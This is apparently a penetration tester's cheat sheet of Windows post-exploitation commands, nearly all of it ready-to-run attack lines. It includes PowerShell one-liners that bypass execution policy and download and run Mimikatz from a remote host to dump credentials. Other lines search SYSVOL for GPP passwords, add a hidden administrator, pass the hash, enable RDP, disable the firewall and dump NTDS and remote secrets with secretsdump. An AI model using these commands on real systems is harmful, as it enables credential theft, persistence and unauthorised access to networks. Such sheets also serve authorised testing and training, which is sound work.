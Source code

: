 # Misc windows stuff

Powershell Oneliners

```sh
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
powershell.exe -exec bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

Find GPP Passwords in SYSVOL

```sh
findstr /S cpassword "nv:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)"
```

Add admin user.

```sh
net user username password /add
net localgroup administrators username /add
net localgroup "Remote Desktop Users" username /add
```

```sh
winexe - U jenkins/administrator //xxx.xxx.xxx cmd.exe
pth-winexe -U jenkins/administrator //xxx.xxx.xxx.xxx cmd.exe
ruby evil-winrm.rb -i xxx.xxx.xxx.xxx -u username -p password
```

Enable Remote Desktop:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall set service remotedesktop enable
```

Enable Remote assistance:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable
```

Disable firewall

```sh
netsh firewall set opmode disable
```

## List alternate data streams

```sh
dir /r
powershell (Get-Content hm.txt -Stream root.txt)
```

## msf meterpreter powershell

You can load powershell in meterpreter

```ssh
meterpreter> load powerhsell 
meterpreter> powershell_shell
```

##  msf meterpreter portfwd

You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.

```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Dump secrets from hive

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

Dump password remotly port 445 is required. 

```sh
 secretsdump.py 'username:password@xxx.xxx.xxx.xx'
```

Check available chares 

```sh
smbmap -u 'username' -p 'password' -d 'domain' -H xx.xx.xx.xx
```
